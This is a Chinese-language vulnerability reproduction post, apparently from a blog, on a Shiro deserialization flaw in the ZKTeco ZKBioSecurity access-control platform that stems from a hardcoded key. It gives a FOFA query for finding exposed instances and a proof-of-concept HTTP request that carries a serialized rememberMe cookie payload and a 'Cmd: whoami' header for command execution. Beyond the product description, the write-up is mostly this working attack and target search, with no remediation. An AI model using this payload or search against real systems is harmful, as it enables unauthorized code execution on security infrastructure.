

# Zkteco百傲瑞达安防管理系统平台 Shiro反序列化漏洞复现

### 0x01 产品简介

  百傲瑞达是基于[生物识别](https://so.csdn.net/so/search?q=%E7%94%9F%E7%89%A9%E8%AF%86%E5%88%AB&spm=1001.2101.3001.7020)技术打造的一站式安防软件服务平台，平台涵盖人事管理、门禁管理、梯控管理、访客管理、视频联动、系统设置等模块，门禁配合通道管理设备可实现对出入口进行控制，可以深度应用于政府、企业、监狱、学校、智慧社区等多个安防需求领域

### 0x02 漏洞概述

 Zkteco 百傲瑞达安防管理系统平台存在 shiro 反序列化漏洞，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 复现环境

FOFA：title=="ZKBioSecurity" && body="Automatic login within two weeks"  



### 0x04 漏洞复现

PoC

```cobol
GET / HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cmd: whoami
Cookie: rememberMe=kPH+bIxk5D2deZiIxcaaaExg7EWKTeFZkFrgR4FfAGBNnoSgHEfKEsBMQECJwt+ceZp4VwLFx5XJDaWao1Fbavx7SZ+t7zGnhcx3V90PiU6V/R+669FmF/RmR
```
